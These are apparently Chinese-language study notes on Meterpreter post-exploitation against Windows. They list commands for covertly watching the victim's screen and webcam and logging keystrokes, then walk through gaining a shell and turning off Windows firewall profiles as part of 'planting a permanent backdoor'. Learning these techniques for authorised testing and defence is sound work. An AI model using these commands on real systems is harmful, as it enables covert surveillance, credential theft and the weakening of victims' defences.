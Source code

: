 # meterpreter屏幕、摄像头、键盘

```bash
screenshot # 截图
screenshare # 监控屏幕
# ctrl + c 停止
webcam_stream # 监控摄像头
run post/windows/capture/keylog_recorder # 键盘记录
```

# 植入永久性后门

## 通过meterprreter打开cmd

```bash
shell
# 如果乱码，因为Windows是GBK，Kali是utf-8
# 要么临时改Kali为GBK
locale # 查看终端编码
export LANG=zh_CN.GBK
export LC_ALL=zh_CN.GBK
# 妖魔临时改Windows为utf-8
chcp 65001
```

## 通过cmd控制Windows防火墙

### 理论

> * windows 的网络有三种类型：私有（家庭）、域（工作）、公共
> 
> * 每种网络类型对应一个防火墙配置：私有配置、域配置、公共配置
> 
> * 我的网络是公共网络，用的是公共防火墙配置
> 
> * 网卡网络只属于某一种类型，也就是说只有一种防火墙配置在生效
> 
> * 设置网络类型：控制面板》网络和共享中心
> 
> * 或者：设置》网络和Internet

### 精准控制防火墙

```batch
netsh advfirewall show currentprofile
rem 查看当前网络是什么类型的
rem 查看当前网络防火墙打开还是关闭
netsh advfirewall set privateprofile state on
netsh advfirewall set privateprofile state off
netsh advfirewall set domainprofile state on
netsh advfirewall set domainprofile state off
netsh advfirewall set publicprofile state on
netsh advfirewall set publicprofile state off
rem 开闭私有、域、公共防火墙
rem 要么直接关闭了，不过动作太大
netsh advfirewall firewall show rule profile=public name=all
rem 查看public防火墙所有规则
rem Rule Name:                            backdoor
rem -----------------------------------------------------------
rem Enabled:                              Yes
rem Direction:                            In
rem Profiles:                             Public
```